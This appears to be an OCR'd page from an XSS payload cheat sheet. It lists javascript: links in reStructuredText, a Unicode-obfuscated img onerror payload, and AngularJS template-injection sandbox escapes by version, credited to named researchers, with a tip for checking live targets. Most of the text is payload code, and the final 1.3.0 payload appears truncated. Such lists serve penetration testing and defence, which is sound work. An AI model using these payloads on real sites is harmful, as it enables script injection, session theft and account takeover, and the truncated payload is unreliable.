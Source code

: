 **reStructuredText** ([.rst](http://docutils.sourceforge.net/docs/user/rst/quickref.html))

```rst
`Test link`__.

__ javascript:alert(document.domain)
```

**Unicode characters**

```html
†‡•＜img src=a onerror=javascript:alert('test')>…‰€
```

**AngularJS Template Injection based XSS**

*For manual verification on a live target, use `angular.version` in your browser console*

**1.0.1 - 1.1.5** by [Mario Heiderich (Cure53)](https://twitter.com/0x6D6172696F)

```js
{{constructor.constructor('alert(1)')()}}
```

**1.2.0 - 1.2.1** by [Jan Horn (Google)](https://twitter.com/tehjh)

```js
{{a='constructor';b={};a.sub.call.call(b[a].getOwnPropertyDescriptor(b[a].getPrototypeOf(a.sub),a).value,0,'alert(1)')()}}
```

**1.2.2 - 1.2.5** by [Gareth Heyes (PortSwigger)](https://twitter.com/garethheyes)

```js
{{'a'[{toString:[].join,length:1,0:'__proto__'}].charAt=''.valueOf;$eval("x='"+(y='if(!window\\u002ex)alert(window\\u002ex=1)')+eval(y)+"'");}}
```

**1.2.6 - 1.2.18** by [Jan Horn (Google)](https://twitter.com/tehjh)

```js
{{(_=''.sub).call.call({}[$='constructor'].getOwnPropertyDescriptor(_.__proto__,$).value,0,'alert(1)')()}}
```

**1.2.19 - 1.2.23** by [Mathias Karlsson](https://twitter.com/avlidienbrunn)

```js
{{toString.constructor.prototype.toString=toString.constructor.prototype.call;["a","alert(1)"].sort(toString.constructor);}}
```

**1.2.24 - 1.2.29** by [Gareth Heyes (PortSwigger)](https://twitter.com/garethheyes)

```js
{{'a'.constructor.prototype.charAt=''.valueOf;$eval("x='\"+(y='if(!window\\u002ex)alert(window\\u002ex=1)')+eval(y)+\"'");}}
```

**1.3.0** by [Gábor Molnár (Google)](https://twitter.com/molnar_g)

```
{{!ready && (ready = true) && (
      !call
      ? $$watchers[0].get(toString.constructor.prototype)
      : (a = apply) &&
        (apply = constructor) &&
        (valueOf = call) &&
        (''+''.toString(
          'F = Function.prototype;' +
          'F.apply = F.a;' +
          'delete F.a;' +
          'delete F.valueOf;' +
          'alert(1);'
        ))
```

[a]: (javascript:prompt(1))